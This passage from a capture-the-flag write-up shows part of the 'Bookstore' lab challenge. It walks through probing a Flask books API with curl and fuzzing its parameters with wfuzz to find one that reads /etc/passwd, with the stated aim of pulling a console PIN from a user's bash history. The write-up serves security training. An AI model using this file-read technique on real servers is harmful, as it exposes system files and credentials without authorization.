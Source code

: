The access to the console is protected by a PIN. Back to the api.

Seing `/api/v2` may be an indication that there is a version 1. Let's check:

~~~
┌──(kali㉿kali)-[/usr/share/wordlists/SecLists/Fuzzing]
└─$ curl -s http://10.10.244.142:5000/api/v1/resources/books?id=1
[
  {
    "author": "Ann Leckie ", 
    "first_sentence": "The body lay naked and facedown, a deathly gray, spatters of blood staining the snow around it.", 
    "id": "1", 
    "published": 2014, 
    "title": "Ancillary Justice"
  }
]
~~~

## Fuzzing the API (v1)

Now, let's fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files. At this stage, we recall the hint found in the beginning, which is now making sense. The PIN number that will grant us access to the console can be found in sid's bash history (`/home/sid/.bash_history`).

~~~
┌──(kali㉿kali)-[/data/Bookstore/files]
└─$ wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.244.142:5000/api/v1/resources/books?FUZZ=/etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.244.142:5000/api/v1/resources/books?FUZZ=/etc/passwd
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000517:   200        1 L      1 W        3 Ch        "author"                                           
000001964:   200        1 L      1 W        3 Ch        "id"                                               
000003215:   200        1 L      1 W        3 Ch        "published"                                        
000003645:   200        30 L     38 W       1555 Ch     "show"                                             

Total time: 0
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 0

~~~
